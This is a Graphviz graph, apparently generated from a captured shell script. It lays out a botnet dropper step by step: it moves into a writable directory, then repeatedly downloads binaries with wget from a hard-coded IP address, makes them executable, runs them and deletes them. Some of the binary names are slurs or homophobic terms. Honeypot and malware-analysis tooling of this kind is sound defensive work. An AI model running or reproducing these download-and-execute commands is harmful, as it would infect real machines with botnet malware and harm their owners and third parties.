 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://165.227.113.222/cock "];
10 -> 12 [label=";,"];
12 [label="chmod +x cock "];
12 -> 14 [label=";,"];
14 [label="./cock "];
14 -> 16 [label=";,"];
16 [label="rm -rf cock "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://165.227.113.222/net "];
28 -> 30 [label=";,"];
30 [label="chmod +x net "];
30 -> 32 [label=";,"];
32 [label="./net "];
32 -> 34 [label=";,"];
34 [label="rm -rf net "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://165.227.113.222/botnet "];
46 -> 48 [label=";,"];
48 [label="chmod +x botnet "];
48 -> 50 [label=";,"];
50 [label="./botnet "];
50 -> 52 [label=";,"];
52 [label="rm -rf botnet "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://165.227.113.222/swatnet "];
64 -> 66 [label=";,"];
66 [label="chmod +x swatnet "];
66 -> 68 [label=";,"];
68 [label="./swatnet "];
68 -> 70 [label=";,"];
70 [label="rm -rf swatnet "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://165.227.113.222/dicknet "];
82 -> 84 [label=";,"];
84 [label="chmod +x dicknet "];
84 -> 86 [label=";,"];
86 [label="./dicknet "];
86 -> 88 [label=";,"];
88 [label="rm -rf dicknet "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://165.227.113.222/fucknet "];
100 -> 102 [label=";,"];
102 [label="chmod +x fucknet "];
102 -> 104 [label=";,"];
104 [label="./fucknet "];
104 -> 106 [label=";,"];
106 [label="rm -rf fucknet "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://165.227.113.222/cracknet "];
118 -> 120 [label=";,"];
120 [label="chmod +x cracknet "];
120 -> 122 [label=";,"];
122 [label="./cracknet "];
122 -> 124 [label=";,"];
124 [label="rm -rf cracknet "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://165.227.113.222/weednet "];
136 -> 138 [label=";,"];
138 [label="chmod +x weednet "];
138 -> 140 [label=";,"];
140 [label="./weednet "];
140 -> 142 [label=";,"];
142 [label="rm -rf weednet "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://165.227.113.222/gaynet "];
154 -> 156 [label=";,"];
156 [label="chmod +x gaynet "];
156 -> 158 [label=";,"];
158 [label="./gaynet "];
158 -> 160 [label=";,"];
160 [label="rm -rf gaynet "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://165.227.113.222/queernet "];
172 -> 174 [label=";,"];
174 [label="chmod +x queernet "];
174 -> 176 [label=";,"];
176 [label="./queernet "];
176 -> 178 [label=";,"];
178 [label="rm -rf queernet "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://165.227.113.222/ballnet "];
190 -> 192 [label=";,"];
192 [label="chmod +x ballnet "];
192 -> 194 [label=";,"];
194 [label="./ballnet "];
194 -> 196 [label=";,"];
196 [label="rm -rf ballnet "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://165.227.113.222/unet "];
208 -> 210 [label=";,"];
210 [label="chmod +x unet "];
210 -> 212 [label=";,"];
212 [label="./unet "];
212 -> 214 [label=";,"];
214 [label="rm -rf unet "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://165.227.113.222/yougay "];
226 -> 228 [label=";,"];
228 [label="chmod +x yougay "];
228 -> 230 [label=";,"];
230 [label="./yougay "];
230 -> 231 [label=";,"];
}
